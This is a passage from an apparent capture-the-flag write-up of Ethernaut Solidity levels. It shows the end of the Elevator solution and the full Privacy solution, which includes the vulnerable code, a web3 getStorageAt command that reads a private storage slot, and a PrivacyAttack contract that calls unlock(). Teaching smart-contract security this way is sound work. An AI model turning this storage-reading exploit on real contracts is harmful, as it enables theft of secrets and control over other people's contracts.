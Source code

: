 we created our own implementation of the `isLastFloor()` method because the building references an instance of `Building(msg.sender)`, our `ElevatorAttack` contract can be that reference, meaning our own `isLastFloor()` method can be used to return whatever we want our method returned false and then true in order to fulfull this level's requirements





# 12. [Challenge 12: Privacy](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B)

Tasks:
- The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.

Helpful Resources: 
- [Walkthrough](https://www.goodbytes.be/blog/article/ethernaut-walkthrough-level-12-privacy)
- [Storage In Solidity](https://docs.soliditylang.org/en/v0.8.10/internals/layout_in_storage.html)
- [Read Ethereum Contract Storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)

**Solution:** \
Vulnerable Code:
```
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
```

Command to get the private data: 
```
await web3.eth.getStorageAt(contract.address, 5)
```

Attack Payload:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './Privacy.sol';

contract PrivacyAttack {
    Privacy public privacy;

    constructor(address _privacy) public { 
        privacy = Privacy(_privacy);
    }

    function callUnlock(bytes32 _slotvalue) public {
        bytes16 key = bytes16(_slotvalue);
        privacy.unlock(key);
    }
}
```
Again, we are confronted with the fact that you can't keep any data private when it's stored on the public blockchain (unless of course, you encrypt it) once we understand storage slots, we can more easily grab any value from any contract that we want.
